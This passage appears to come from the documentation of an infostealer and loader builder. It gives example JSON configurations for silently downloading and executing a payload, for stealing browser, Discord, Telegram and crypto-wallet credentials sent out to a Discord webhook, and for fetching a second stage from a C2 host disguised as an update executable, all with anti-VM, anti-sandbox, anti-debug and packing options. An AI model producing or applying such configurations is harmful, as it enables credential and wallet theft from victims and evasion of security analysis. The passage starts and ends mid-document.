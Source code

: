 ```json
  }
}
```

**Use Case**: Download and execute a payload silently with stealth features.

---

### Example 2: Browser Credentials Stealer

```json
{
  "grabber": {
    "chrome": true,
    "firefox": true,
    "edge": true,
    "brave": true,
    "discord": true
  },
  "exfiltration": {
    "webhook": "https://discord.com/api/webhooks/YOUR_WEBHOOK_ID/YOUR_WEBHOOK_TOKEN"
  },
  "systemInfo": {
    "hwid": true,
    "ip": true,
    "os": true,
    "av": true
  },
  "stealth": {
    "hideConsole": true
  },
  "antiAnalysis": {
    "vm": true,
    "sandbox": true,
    "debug": true
  },
  "buildOptions": {
    "architecture": "x64",
    "obfuscate": true,
    "upx": true
  }
}
```

**Use Case**: Extract browser credentials and system info with full anti-analysis protection.

---

### Example 3: Comprehensive Red Team Payload

```json
{
  "downloader": {
    "url": "https://c2.example.com/stage2.exe",
    "savePath": "%APPDATA%\\Microsoft\\update.exe",
    "execParams": "--silent --no-gui"
  },
  "grabber": {
    "chrome": true,
    "firefox": true,
    "discord": true,
    "telegram": true,
    "wallets": ["exodus", "atomic", "electrum"]
  },
  "exfiltration": {
```